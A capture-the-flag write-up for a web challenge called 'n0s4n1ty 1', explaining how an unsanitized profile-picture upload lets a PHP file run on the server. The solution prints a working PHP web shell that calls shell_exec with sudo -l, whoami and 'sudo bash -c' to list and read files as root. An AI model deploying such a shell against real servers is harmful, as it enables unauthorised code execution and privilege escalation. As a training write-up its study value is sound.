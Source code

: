 # TITLE : n0s4n1ty 1
## Author : Prince Niyonshuti N.
## Description 
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the **/root** directory.
You can access the web application here!
## Hints
- File upload was not sanitized
- Whenever you get a shell on a remote machine, check sudo -l
## Solution
In this challenge, the website allows users to upload a profile picture. However, instead of restricting uploads to images only, it accepts any file type. This is a vulnerability we can exploit.

By uploading a .php file, we can execute arbitrary PHP code on the server. From the hint provided, we know that we can run the sudo -l command, which is a Linux command to list allowed sudo privileges. This implies we can execute system commands through the PHP file.

Below is the PHP script I used:
<pre><code>
<?php
echo "<pre>";
// Check what sudo can do
echo shell_exec("sudo -l");

// Confirm current user
echo "Current user: " . shell_exec("whoami");

// Try running a command as root
echo "Root check: " . shell_exec("sudo whoami");

// Navigate and print path (all in one command)
echo shell_exec("sudo bash -c 'cd /challenge && pwd && ls -la && cat config-box.py && cat metadata.json'");
echo "</pre>";
?>

</code></pre>
From the output of sudo -l, we can determine what commands we're allowed to run with elevated privileges. We also find that there is a /challenge directory in the root, which contains files like metadata.json. By reading that file, we can retrieve the flag.


